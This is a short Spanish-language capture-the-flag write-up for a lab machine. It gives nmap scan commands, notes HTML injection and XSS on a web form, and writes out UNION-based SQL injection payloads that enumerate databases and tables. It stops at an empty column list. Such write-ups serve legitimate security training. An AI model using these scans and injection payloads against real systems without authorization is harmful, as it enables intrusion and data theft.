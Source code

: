 ## Reconocimiento

`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -oG allPorts`

`nmap -p 22,80,4566,8080 -sCV -vvv 10.10.11.116 -oN targeted`

```
22/ssh
80/http
4566/http
8080/http
```

Navegamos al puerto 80.
Probando a introducir valores vemos que es vulnerable a HTMLinjection, También a Inyecciones XSS

Interceptamos la petición con Burpsuite, y vemos que en el campo de selección de países se puede inyectar código SQL y se ven reflejados en la web

`' union select database()-- -` Enumerar base de datos acctual `registration`

`' union select schema_name from information_schema.schemata-- -` Enumerar todas las bases de datos

`' union select table_name from information_schema.tables where table_schema="registration"-- -` Enumerar las tables de la base de datos registration.


BBDD:
`registration`
Tables:
`registration`
Columns:

